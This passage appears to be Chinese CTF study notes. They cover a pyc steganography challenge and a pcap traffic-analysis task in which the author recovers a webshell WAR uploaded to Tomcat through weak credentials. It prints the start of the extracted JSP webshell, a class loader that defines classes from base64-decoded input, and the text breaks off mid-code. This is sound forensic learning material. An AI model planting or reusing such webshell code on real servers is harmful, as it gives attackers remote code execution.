 ？？？是一个计算斐波那契数的程序？

考点是pyc剑龙隐写



[关于隐写 CTF-杂项-隐写](https://www.qingdenggujiu.com/archives/130)



下载工具进行解决，可以直接获得flag

![image-20240312204541964](../typora-user-images/image-20240312204541964.png)

注：工具对python版本要求比较严格，最好是3.6的

这里我conda新建了一个3.6的python虚拟环境，然乎发现在anaconda终端进行切换目录时无法cd E:\ 转换盘目录，   然后发现需要直接E: 跳到根目录，然后再cd到指定目录就行了。

https://blog.csdn.net/nanchifeng3190/article/details/86688614





### 第四题 BabyAntSword ***

<img src="../typora-user-images/image-20240312204914153.png" alt="image-20240312204914153" style="zoom:50%;" />

给了pcap的附件，是流量分析题目

蚁剑  webshell的连接工具 ，牵扯到webshell网页流量分析时，我们都应该去看看post请求方式的

![image-20240312211457668](../typora-user-images/image-20240312211457668.png)

发现有上传shell.war文件(很想知道为什么它知道上传文件是在这个标头下面)

题解上说这里应该可以看出来其实是tomcat弱口令部署war包GetShell的一个 流量。

没看懂

先照着做把war包解压

怎么把war包给保存起来呢，其内容的ASCII码形式应该是下面的

![image-20240313125832738](../typora-user-images/image-20240313125832738.png)

​		将这段ASCII码以二进制形式保存，更名为download.war，就是我们需要的文件，也就是上面POST请求上传的shell.war文件。

![image-20240313130147426](../typora-user-images/image-20240313130147426.png)

​		这个文件在这个流量包中，可以看到是在Data字段中的，我们可以右键-->导出分组字节流，然后保存新文件名为download.war。

![image-20240313130610430](../typora-user-images/image-20240313130610430.png)

META-INF文件夹中是版本信息，没什么用处。

主要看yesec.jsp文件是什么内容

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

public byte[] base64Decode(String str) throws Exception {
    try {
        Class clazz = Class.forName("sun.misc.BASE64Decoder");
        return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
```